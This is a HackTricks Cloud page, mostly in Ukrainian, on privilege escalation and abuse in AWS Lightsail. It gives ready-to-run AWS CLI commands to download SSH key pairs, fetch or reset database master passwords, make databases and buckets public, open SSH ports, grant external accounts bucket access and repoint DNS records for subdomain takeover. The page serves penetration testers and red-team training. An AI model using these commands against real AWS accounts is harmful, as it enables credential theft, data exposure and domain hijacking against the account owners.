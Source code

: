 # AWS - Lightsail Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Для отримання додаткової інформації про Lightsail перегляньте:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Важливо зазначити, що Lightsail **не використовує IAM ролі, що належать користувачу**, а належать обліковому запису, керованому AWS, тому ви не можете зловживати цією службою для підвищення привілеїв. Однак, **чутливі дані**, такі як код, API ключі та інформація про базу даних, можуть бути знайдені в цій службі.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Цей дозвіл дозволить вам отримати SSH ключі для доступу до інстансів:
```
aws lightsail download-default-key-pair
```
**Потенційний вплив:** Знайти чутливу інформацію всередині інстансів.

### `lightsail:GetInstanceAccessDetails`

Ця дозволена дія дозволить вам генерувати SSH-ключі для доступу до інстансів:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Потенційний вплив:** Знайти чутливу інформацію всередині екземплярів.

### `lightsail:CreateBucketAccessKey`

Ця дозволена дія дозволить вам отримати ключ для доступу до кошика:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Потенційний вплив:** Знайти чутливу інформацію всередині бакету.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Ця дозволена дія дозволить вам отримати облікові дані для доступу до бази даних:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Потенційний вплив:** Знайти чутливу інформацію в базі даних.

### `lightsail:UpdateRelationalDatabase`

Ця дозволена дія дозволить вам змінити пароль для доступу до бази даних:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Якщо база даних не є публічною, ви також можете зробити її публічною з цими дозволами за допомогою

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Потенційний вплив:** Знайти чутливу інформацію в базі даних.

### `lightsail:OpenInstancePublicPorts`

Ця дозволяє відкривати порти для Інтернету.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Потенційний вплив:** Доступ до чутливих портів.

### `lightsail:PutInstancePublicPorts`

Ця дозволяє відкривати порти для Інтернету. Зверніть увагу, що виклик закриє будь-який порт, який не вказано в ньому.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Потенційний вплив:** Доступ до чутливих портів.

### `lightsail:SetResourceAccessForBucket`

Ця дозволяє надати екземплярам доступ до кошика без додаткових облікових даних

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Потенційний вплив:** Потенційний новий доступ до бакетів з чутливою інформацією.

### `lightsail:UpdateBucket`

З цією дозволом зловмисник може надати своєму обліковому запису AWS доступ на читання до бакетів або навіть зробити бакети публічними для всіх:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Потенційний вплив:** Потенційний новий доступ до бакетів з чутливою інформацією.

### `lightsail:UpdateContainerService`

З цими правами зловмисник може надати доступ до приватних ECR з сервісу контейнерів.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Потенційний вплив:** Отримати чутливу інформацію з приватного ECR

### `lightsail:CreateDomainEntry`

Зловмисник з цим дозволом може створити піддомен і вказати його на свою власну IP-адресу (взяття піддомену під контроль), або створити SPF запис, який дозволяє йому підробляти електронні листи з домену, або навіть встановити основний домен на свою власну IP-адресу.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Потенційний вплив:** Захоплення домену

### `lightsail:UpdateDomainEntry`

Зловмисник з цим дозволом може створити піддомен і вказати його на свою власну IP-адресу (захоплення піддомену), або створити SPF запис, який дозволяє йому підробляти електронні листи з домену, або навіть встановити основний домен на свою власну IP-адресу.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Потенційний вплив:** Захоплення домену

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
